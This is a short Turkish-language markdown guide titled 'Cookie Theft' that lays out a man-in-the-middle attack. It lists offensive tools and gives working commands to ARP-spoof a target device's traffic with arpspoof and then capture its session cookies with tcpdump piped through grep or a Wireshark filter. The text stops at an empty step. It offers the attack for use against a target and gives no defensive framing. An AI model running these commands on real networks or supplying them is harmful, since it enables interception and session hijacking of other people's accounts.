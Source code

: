 # Cookie Theft (Çerez Hırsızlığı)

##### Gereksinimler

- Kali Linux veya Parrot OS gibi bir pentest dağıtımı
- Wireshark veya Tcpdump gibi ağ trafiği analiz araçları
- Mitmproxy veya Bettercap gibi Man-in-the-Middle (MitM) saldırı araçları
- Hedef cihazın HTTP üzerinden giriş yaptığı bir site (HTTPS siteleri için ek önlemler gerekebilir)
- ARP Spoofing veya DNS Spoofing için ettercap veya arpspoof

-------------------------------------

##### Senaryo Adımları

- ARP Spoofing ile Trafiği Yönlendirme, Hedef cihazın tüm internet trafiğini kendi sistemine yönlendirmek için ARP Spoofing yapabilirsin.
    - arpspoof -i wlan0 -t [Hedef_IP] -r [Modem_IP] : Bu komut, hedefin modem yerine seni görmesini sağlayarak araya girmeni sağlar.

- HTTP Trafiğini İzleme, Eğer hedef site HTTP kullanıyorsa, Wireshark veya tcpdump ile çerezleri yakalayabilirsin.
    - tcpdump -i wlan0 -A | grep "Cookie:" veya Wireshark açıp "http.cookie" filtresiyle çerezleri görebilirsin.

- 
